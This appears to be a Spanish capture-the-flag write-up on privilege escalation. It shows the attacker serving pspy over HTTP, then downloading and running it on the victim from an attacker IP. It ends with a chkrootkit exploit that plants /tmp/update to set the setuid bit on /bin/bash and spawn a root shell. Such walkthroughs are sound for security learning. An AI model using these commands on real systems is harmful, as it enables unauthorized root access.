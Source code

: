 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
cd /root
```

Aqui no vemos nada interresante y no podemos entrar en el directorio root.

#### Analyzo de processos con PSPY {-}

installamos la herramienta en la maquina de attackante y lo compartimos con un web server.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```

Desde la maquina victima, downloadeamos el fichero y lo lanzamos

```bash
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

Esperamos un poco y vemos que hay un script `/usr/bin/chkrootkit` que se ejecuta a interval regular de tiempo.

#### Priviledge escalation con chkrootkit {-}

```bash
searchsploit chkrootkit
```

Ya vemos que hay un exploit para Local Priviledge Escalation. Lo analyzamos.

```bash
searchsploit -x 33899
```

Creamos un fichero llamado update en tmp

```bash
cd /tmp
echo '#!/bin/bash\n\nchmod 4755 /bin/bash' > update
chmod +x update
watch -n 1 ls -l /bin/bash
```

Ya podemos utilizar bash para convertirnos en root

```bash
bash -p
whoami
#Output

root
```

Ya hemos rooteado la maquina y podemos ver la flag.

